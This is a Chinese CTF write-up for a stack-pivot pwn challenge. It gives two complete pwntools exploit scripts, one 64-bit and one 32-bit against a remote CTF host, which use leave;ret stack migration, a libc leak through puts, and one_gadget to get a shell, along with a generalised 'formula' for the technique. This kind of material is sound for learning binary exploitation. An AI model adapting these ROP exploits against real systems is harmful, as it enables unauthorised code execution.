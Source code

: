 # 栈的奇妙之旅

```py
from pwn import *
context.arch="amd64"
file=ELF("./pwn")
libc=ELF("./libc.so.6")
p=process("./pwn")
bss=0x404400
rdi=0x004011c5
leave_ret=0x004011fc
rbp=0x004011c8
vuln_read=0x004011e5
p.sendafter("me?\n",b'a'*0x80+p64(bss+0x80)+p64(vuln_read))
p.send((p64(0)+p64(rdi)+p64(file.got['puts'])+p64(file.plt['puts'])+p64(rbp)+p64(bss+0x80)+p64(vuln_read)).ljust(0x80,b'a')+p64(bss)+p64(leave_ret))
libc.address=u64(p.recvline(keepends=False).ljust(8,b'\x00'))-libc.sym['puts']
rcx=libc.address+0x000000000003d1ee
p.send(p64(0)+p64(rcx)+p64(0)+p64(libc.address+0x50a47))
p.interactive()
```
这题做得我太痛苦了……明明很快就想到思路写了这个exp的原型，但是不知道为什么最后执行system的rop链无论如何都不行。调试了很久，不是栈没对齐的原因，总之就是因为某种诡异的问题一直segmentation fault。后面改成one_gadget，能在gdb调试的情况下getshell，但是直接process就不行了……一个晚上都在崩溃地寻找原因，没找到。今天终于找到了罪魁祸首，至少是自认为的——使用了sendlineafter而不是成功exp的sendafter，多出来了一个换行符。用gdb的情况这个换行符不会阻止下一段payload的发送（也不清楚为什么），但是process或者remote不会，导致一段payload没发进去

exp执行链：vuln_read->leave_ret->rdi->puts->rbp->vuln_read->leave_ret->rcx->one_gadget。重点是`leave;ret`的实际含义：
```
leave
//mov esp ebp
//pop ebp
ret
//pop eip
```
然后一边懵逼一边苦逼调试就能出来了（

做完这题不久后我就遇见了同样考点的32位版本，突然发现是有公式的。只要初始read的buf够大（整体大小，不是溢出的大小。比如可以读入0x80，但只溢出0x10），就能套公式。大概是：
1. p64(栈迁移后payload地址+buf大小)+p64(利用rbp控制read读入地址的gadget)
2. (p64(0)+p64(rdi)+p64(file.got['puts'])+p64(file.plt['puts'])+p64(rbp)+p64(bss+0x80)+p64(vuln_read)).ljust(buf大小,b'a')+p64(栈迁移后payload地址)+p64(leave_ret) 。泄漏libc，顺便读入第二段payload
3. getshell rop链

那道32位版本的题
```py
from pwn import *
libc=ELF("./libc.so.6")
p=remote("pwn.1nf1n1ty.team",31798)
p.sendlineafter(">","hack")
p.sendlineafter(">","4")
p.recvuntil(": ")
value=int(p.recvuntil(";",drop=True),16)
bss=value+0x2e13+0x100
elf_base=value-0x11ed
ebx=elf_base+0x3ff4
p.sendlineafter(">","2")
p.sendafter(">",b'a'*(0xac-8)+p32(ebx)+p32(0)+p32(elf_base+0x12d2)) #不知道是不是特例还是所有32位binary都这样，这题经过调试发现需要恢复ebx，不然报错。这里ebp填0是因为这题跳回main函数开头了，不是vuln_read，所以rbp不重要
p.sendlineafter(">","hacker")
p.sendlineafter(">","4")
p.recvuntil(": ")
libc.address=int(p.recvuntil(";",drop=True),16)-0x4dd50
got_area=libc.address+0x223e34
p.sendlineafter(">","2")
p.sendafter(">",b'a'*(0xac-8)+p32(ebx)+p32(bss+168)+p32(elf_base+0x1246)) #这块就对应公式了
#涉及到 https://github.com/david942j/one_gadget/issues/130 。32位binary用one_gadget稍微麻烦点
p.send((p32(0)+p32(next(libc.search(asm('pop esi; ret'), executable=True)))+p32(got_area)+p32(libc.address+0x173af2)).ljust(176-8,b'\x00')+p32(bss)+p32(elf_base+0x1260)) #这题libc基地址已知，所以第二步就能getshell，不用再串一次payload了。感觉可以无限重复公式第二步以执行多次payload，不过没实验过
p.interactive()
```